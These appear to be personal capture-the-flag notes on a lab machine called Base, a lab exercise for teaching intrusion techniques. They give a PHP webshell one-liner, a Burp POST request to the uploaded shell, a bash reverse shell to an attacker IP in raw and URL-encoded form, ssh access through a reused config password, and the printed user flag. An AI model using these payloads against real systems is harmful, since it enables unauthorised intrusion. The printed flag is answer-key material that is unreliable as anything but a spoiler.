 Really?
- That only got me logged into the website again (at the upload page).
- Didn't work on ssh and didn't with with `su -`

Walk-Through
1. Create webshell.php with content: `<?php echo system($_REQUEST['cmd']);?>`
2. Upload that. Run it. You get a blank page.
3. In the URL append: `?cmd=id`. You should get a return when PHP executes that command.
- This got me basically the same thing as the reverse shell: `uid=33(www-data)`

Catch the ?cmd in Burp and send it to Repeater: 
- Right-click and "Change request method" to POST
```
POST /_uploaded/webshell.php HTTP/1.1
Host: 10.129.95.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: PHPSESSID=3l6ho9a5isro6f2ci8on3l1g11
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

cmd=id
```

Change that last line to: 
```
cmd=/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
# which would be:
cmd=/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.155/1234 0>&1'
```

In order to execute our payload, we will have to first URL encode it.
- Highlight the code (everything after `cmd-=`) and hit CTRL+U.
- You end up with:
```
cmd=/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.10.15.155/1234+0>%261'
```

Okay. Got the same reverse shell as I did with Monkey's php file. 

Walk-Through: System administrators often re-use passwords between web and system accounts so that they do not forget them.
- He used the password from the config.php file to ssh into the system as john
- That got me in as john

```
$ ssh john@10.129.95.184
john@10.129.95.184's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-151-generic x86_64)

john@base:~$ ls
user.txt
john@base:~$ cat user.txt 
f54846c258f3b4612f78a819573d158e
```
